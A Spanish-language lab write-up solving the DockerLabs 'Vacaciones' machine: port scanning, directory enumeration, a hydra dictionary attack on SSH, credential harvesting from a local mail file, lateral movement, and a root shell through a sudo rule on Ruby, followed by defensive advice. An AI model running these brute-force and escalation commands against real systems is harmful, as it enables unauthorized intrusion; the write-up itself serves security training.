# Vacaciones - DockerLabs

> Laboratorio realizado en entorno local/controlado con fines educativos.  
> No usar estos comandos contra sistemas reales sin autorización expresa.

## Objetivo

Resolver la máquina **Vacaciones** aplicando una metodología ordenada:

1. Desplegar la máquina vulnerable.
2. Identificar puertos abiertos.
3. Analizar la web y su código fuente.
4. Enumerar rutas web.
5. Obtener acceso inicial por SSH.
6. Buscar información sensible dentro del sistema.
7. Realizar movimiento lateral.
8. Escalar privilegios mediante una configuración sudo insegura.

## Información de la práctica

| Campo | Valor |
|---|---|
| Plataforma | DockerLabs |
| Máquina | Vacaciones |
| Servicios | SSH y HTTP |
| IP de ejemplo | 172.17.0.2 |
| Acceso inicial | Usuario `camilo` mediante SSH |
| Movimiento lateral | De `camilo` a `juan` |
| Escalada | `sudo` sobre `/usr/bin/ruby` |

## 1. Despliegue de la máquina

Se levanta la máquina desde la carpeta de trabajo.

```bash
cd ~/Desktop/Laboratorio/vacaciones
sudo bash auto_deploy.sh vacaciones.tar
```



## 2. Comprobación de conectividad

Se comprueba que la máquina responde en la red local del laboratorio.

```bash
ping -c 4 172.17.0.2
```



## 3. Reconocimiento con Nmap

Se realiza un escaneo completo con detección de versiones.

```bash
nmap -p- -sC -sV --open -sS -n -Pn 172.17.0.2
```

Servicios principales:

| Puerto | Servicio | Uso |
|---|---|---|
| 22/tcp | SSH | Acceso inicial. |
| 80/tcp | HTTP | Enumeración web. |



## 4. Revisión de la web

Se revisa el contenido servido por HTTP y el código fuente de la página.

```bash
curl http://172.17.0.2
```

En el HTML aparece una pista con posibles usuarios: `Juan` y `Camilo`.



## 5. Enumeración de directorios

Se usa Gobuster para buscar rutas ocultas en la web.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



## 6. Ataque de diccionario controlado contra SSH

Con el usuario `camilo`, se prueba un diccionario de contraseñas contra el servicio SSH.

```bash
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4
```

Resultado esperado del laboratorio:

```text
Usuario: camilo
Contraseña: password1
```



## 7. Acceso inicial como camilo

Se accede al sistema usando SSH.

```bash
ssh camilo@172.17.0.2
whoami
id
```



Se revisa el entorno del usuario y sus permisos.

```bash
pwd
ls -la
sudo -l
```



## 8. Búsqueda de información sensible

Se revisan archivos del sistema accesibles para el usuario. En el buzón de correo aparece información útil.

```bash
cat /var/mail/camilo/correo.txt
```



El correo permite obtener una credencial para el usuario `juan`.

## 9. Movimiento lateral a juan

Se cambia al usuario `juan` con la credencial encontrada.

```bash
su juan
whoami
id
```



## 10. Enumeración sudo

Se revisan los permisos sudo del usuario `juan`.

```bash
sudo -l
```



El usuario puede ejecutar `/usr/bin/ruby` como root sin contraseña.

## 11. Escalada de privilegios con Ruby

Se abusa de la configuración sudo para obtener una shell como `root`.

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
whoami
id
```



## Problemas frecuentes

| Problema | Posible causa | Solución |
|---|---|---|
| No se ve la pista web | No se revisó el código fuente | Usar `curl` o ver código fuente desde navegador. |
| Hydra no encuentra contraseña | Usuario o diccionario incorrecto | Confirmar usuarios encontrados y usar `rockyou.txt`. |
| `su juan` falla | Contraseña copiada mal | Revisar espacios y caracteres especiales. |
| Ruby no escala | Permiso sudo inexistente | Confirmar con `sudo -l`. |

## Medidas defensivas

- No dejar pistas sensibles en comentarios HTML.
- Usar contraseñas robustas y únicas.
- Evitar información sensible en buzones locales.
- Revisar configuraciones `sudoers`.
- No permitir ejecución de intérpretes como root salvo necesidad justificada.

## Resumen final

La máquina se compromete encadenando exposición de usuarios, credenciales débiles, información sensible en correo local y una mala configuración de sudo. Es un ejemplo claro de cómo una cadena de errores pequeños puede terminar en acceso root.
